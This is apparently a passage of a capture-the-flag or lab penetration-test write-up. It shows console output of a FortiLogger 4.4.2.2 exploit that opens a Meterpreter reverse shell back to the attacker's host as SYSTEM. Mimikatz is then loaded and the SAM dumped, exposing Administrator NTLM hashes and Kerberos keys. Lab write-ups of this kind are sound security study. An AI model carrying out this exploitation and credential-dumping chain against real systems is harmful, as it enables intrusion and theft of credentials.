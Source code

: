 ```bash
[+] The target is vulnerable. FortiLogger version 4.4.2.2
[+] Generate Payload
[+] Payload has been uploaded
[*] Executing payload...
[*] Sending stage (177734 bytes) to 10.129.239.92
[*] Meterpreter session 4 opened (10.10.14.185:4444 -> 10.129.239.92:49693) at 2025-01-28 14:20:58 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

[!] Loaded x86 Kiwi on an x64 architecture.

Success.
meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : WIN-51BJ97BCIPV
SysKey : c897d22c1c56490b453e326f86b2eef8
Local SID : S-1-5-21-2348711446-3829538955-3974936019

SAMKey : e52d743c76043bf814df6e48f1efcb23

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: bdaffbfe64f1fc646a3353be1c2c3c99

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : d0e507b237b40a3a1f62ba1935465406

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-51BJ97BCIPVAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 545c81812fc803221b22e47ab8789c104f38b151c677fbc4006894db6d174f1b
      aes128_hmac       (4096) : 5d59bcd0e74c5ed8951b9f2b658eef43
      des_cbc_md5       (4096) : 76436b1c190d892a
    OldCredentials
      aes256_hmac       (4096) : a394ab9b7c712a9e0f3edb58404f9cf086132d29ab5b796d937b197862331b07
      aes128_hmac       (4096) : 7630dab9bdaeebf9b4aa6c595347a0cc
      des_cbc_md5       (4096) : 9876615285c2766e
    OlderCredentials
      aes256_hmac       (4096) : 09c55a10e6b955caac4abbf7ff37b81488a2ede67a150c00c775fa00d94768ab
      aes128_hmac       (4096) : b49643128581ac08a1fae957f7787f72
      des_cbc_md5       (4096) : d32592d63b75ec1f

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-51BJ97BCIPVAdministrator
    Credentials
      des_cbc_md5       : 76436b1c190d892a
    OldCredentials
```